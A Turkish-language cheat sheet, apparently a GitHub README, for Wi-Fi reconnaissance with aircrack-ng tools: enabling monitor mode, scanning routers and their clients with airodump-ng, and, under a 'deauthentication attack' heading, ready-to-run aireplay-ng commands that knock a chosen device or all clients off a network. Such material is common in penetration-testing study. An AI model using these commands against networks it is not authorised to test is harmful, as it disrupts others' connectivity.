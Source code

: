 - **🖥️ İfconfig** : Mevcut internet bağlantıları ile ilgili detaylı bilgi verir.
- **📶 İwconfig** : Mevcut Wİ-Fİ bağlantıları ile ilgili detaylı bilgi verir.
---
- **🛠️ airmon-ng (start/stop) (interface)**
	- ***📡 Managed Mode*** Wİ-Fİ adaptörünün varsayılan internete bağlanma modu. 
		- airmon-ng start wlan0
	- ***🎯 Monitor Mode*** ise Wİ-Fİ adaptörünün bilgi toplama modudur. 
		- airmon-ng stop wlan0mon 
---
- **🔍 airodump-ng (interface)**
	- Etraftaki modemler hakkında bilgi toplar.
	- ***🆔 BSSID*** : Modemin MAC adresi.
	- ***📉 PWR*** : Modemin Wİ-Fİ adaptörüne uzaklığı.
	- ***📡 CH*** : Modemin kullanıldığı kanal.
	- ***🔐 ENC*** : Modemin şifrelenme türü.
	- ***🏷️ ESSID*** : Modem adı.
---
- **📄 airodump-ng --channel ... --bssid ... --write ... (interface)**
	- örneğin *airodump-ng --channel 12 --bssid 40:30:20:10 --write txt wlan0mon*
	- Hedeflenen modem ile ilgili detaylı bilgi toplar.
	- ***🆔 BSSID*** : Modemin MAC adresi.
	- ***👥 STATION*** : Modeme bağlı cihazların MAC adresi.
	- ***📦 Frames*** : Cihazların internette harcadığı paket sayısı.
---
### 🚫 DEAUTHENTICATION SALDIRISI
- **📤 aireplay-ng --deauth (paket sayısı) -a (modem MAC) -c (cihaz MAC) (interface)**
	- *aireplay-ng --deauth 1000 -a 40:30:20:10 -c 10:20:30:40 wlan0mon*
- **📤 aireplay-ng --deauth (paket sayısı) -a (modem MAC) (interface)**
	- *aireplay-ng --deauth 1000 -a 40:30:20:10 wlan0mon*
